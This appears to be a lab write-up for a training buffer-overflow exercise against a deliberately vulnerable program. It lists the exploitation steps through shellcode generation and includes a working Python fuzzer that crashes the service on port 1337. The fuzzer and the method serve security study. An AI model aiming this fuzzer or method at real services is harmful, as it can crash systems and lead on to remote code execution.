

# OVERFLOW1

## Methodology

Remember, the buffer overflow methodology consists of several steps:

1. Spiking
   1. Method to find the vulnerable part of the program.
2. Fuzzing
   1. Sending a bunch of characters/messages to a program to break it.
3. Finding the offset
   1. At what point did we break it? This is called the offset.
4. Overwriting the EIP
   1. The offset will then be utilized to overwrite the EIP.
5. Finding bad characters
   1. We need to find out which characters are compatible with the shellcode and which characters are not.
6. Finding the correct module
   1. Looking for a DLL or something similar within a program that does not contain memory protections.
   2. Mona Modules + Immunity Debugger
7. Generate shellcode that leads to RCE

## Getting Started

1. Deploy VM: `xfreerdp /u:admin /p:password /cert:ignore /v:10.10.253.98 /workarea`
2. Open Immunity Debugger as Admin
3. Load oscp.exe into the program
4. Run the program: Press F9

## "Playing"

* Here is where we see what the program is capable of
* Make note of what it can and can't do
* Is there anything that we can do out of the gate to break the program?
* Is there anything weird about it?
* One way we can do this is by connecting to the hosted program via netcat

### Netcat

<figure><figcaption></figcaption></figure>

* We notice that it is running on port 1337
* So, why not connect to it from Kali on port 1337?

<figure><figcaption></figcaption></figure>

## Mona Configuration

Place the following into the debugger window of Immunity:

```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing

* Create a file on Kali called 00fuzzer.py with the following contents:

```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.253.98"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

### What does this script do?

* This fuzzer will send an increasingly long string of "A's"
* If the fuzzer is able to crash the program with that set of strings, the fuzzer will exit with an error message
* <mark style="color:yellow;">MAKE A NOTE OF THE LARGEST NUMBER OF BYTES THAT WERE SENT</mark>

### Running the script

<figure><figcaption></figcaption></figure>


